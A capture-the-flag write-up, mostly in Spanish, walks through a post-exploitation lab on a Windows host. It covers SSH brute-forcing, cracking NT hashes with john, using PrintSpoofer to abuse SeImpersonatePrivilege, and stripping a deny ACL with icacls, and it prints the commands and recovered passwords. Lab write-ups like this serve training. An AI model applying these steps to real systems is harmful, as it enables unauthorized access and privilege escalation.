# Post-Exploitation CTF 2

A target machine is accessible at **target.ine.local**
**Wordist:** /usr/share/wordlists/metasploit/unix_passwords.txt
**Tool:** /root/Desktop/PrintSpoofer.exe

- FLAG1
An insecure ssh user named alice lurks in the system.



Probamos fuerza bruta para el usuario alice



alice:princess1

Nos conectamos por ssh
```bash
ssh alice@target.ine.local
```



Vemos la flag en *C:\Users\alice*

- FLAG2
Using the hashdump file discovered in the previous challenge, can you crack the hashes and compromise a user?

Nos descargamos el **hashdump.txt** del mismo directorio que la *flag1.txt* y nos lo copiamos a un archivo



Vamos a probar a crackearlas con john
```bash
john --wordlist /usr/share/wordlists/metasploit/unix_passwords.txt --format=NT hashdump.txt
```



david:orange

Nos conectamos por ssh
```bash
ssh david@
```



Vemos la flag en el directorio *C:\Users\david*

- FLAG3
Can you escalate privileges and read the flag in C://Windows//System32//config directory?

Vemos que el usuario david tiene el **SeImpersonatePrivilege**



Subimos la herramienta **PrintSpoofer64.exe** por ssh
```bash
scp PrintSpoofer64.exe david@target.ine.local:.
scp ARCHIVO usuario@host:DESTINO
```

Usamos el programa para abusar de *SeImpersonatePrivilege*
```bash
PrintSpoofer64.exe -i -c powershell.exe
```



Buscamos ahora por los directorios
```bash
dir /a:d
```



Dentro de *\config* encontramos la flag3.txt

- FLAG4
Looks like the flag present in the Administrator's home denies direct access.

Comprobaremos los permisos del directorio *flag*
```bash
icacls flag
```



Vemos que tiene un DENY en nuestro usuario

Esto confirma que hay cierta regla ACL aplicando sobre el directorio

Desactivaremos la opción d (deny) para el usuario SYSTEM
```bash
icacls flag /remove:d "NT AUTHORITY\SYSTEM"
```



Conseguimos desactivar el acl y vemos la flag
